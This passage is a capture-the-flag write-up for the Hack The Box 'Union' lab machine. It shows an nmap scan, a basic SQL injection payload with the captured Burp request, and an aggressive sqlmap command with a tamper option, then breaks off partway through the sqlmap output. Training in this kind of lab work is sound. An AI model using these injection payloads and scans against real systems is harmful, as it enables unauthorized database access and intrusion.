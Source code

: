 ```yaml
---
title: Hack The Box - CTF Lab - Union - Medium
date: 2025-04-12 00:00:01 +0800
image: /images/Union.png
categories: [HTB Labs]
tags: [CPTS, Medium]
---
```

Union is an medium difficulty linux machine featuring a web application that is vulnerable to SQL Injection. There are filters in place which prevent SQLMap from dumping the database. Users are intended to manually craft union statements to extract information from the database and website source code. The database contains a flag that can be used to authenticate against the machine and upon authentication the webserver runs an iptables command to enable port 22. The credentials for SSH are in the PHP Configuration file used to authenticate against MySQL. Once on the machine, users can examine the source code of the web application and find out by setting the X-FORWARDED-FOR header, they can perform command injection on the system command used by the webserver to whitelist IP Addresses.

Let's start with a full nmap scan:
```
sudo nmap -sC -sV -p- 10.10.11.128

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 01:08 EDT
Nmap scan report for 10.10.11.128
Host is up (0.023s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.98 seconds
```
Looks like all we have is port 80, lets visit the website. 

We see an input form called a player eligibility check, so we run BurpSuite. We enter below as a common SQL injection attack and open the request in BurpSuite, then send it to BurpSuite repeater:
```
' OR 1=1 --
```
We get the following:
```
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 18
Origin: http://10.10.11.128
Connection: keep-alive
Referer: http://10.10.11.128/
Cookie: PHPSESSID=9uf6a5q2l73foq6t3icrscqfvt
Priority: u=0

player' OR 1=1 --
```
We see that the SQL commenting out command "--" is removing the line that is giving us the "Complete the challenge" link, meaning that the sql injection is working. 

We save the HTTP request as a txt file and then enter it into sqlmap using an aggressive sqlmap command to find vulnerabilities:
```
sqlmap -r request.req --batch --dump --level 5 --risk 3 --random-agent --tamper=between

[01:12:01] [INFO] heuristic (XSS) test shows that (custom) POST parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[01:17:11] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
```

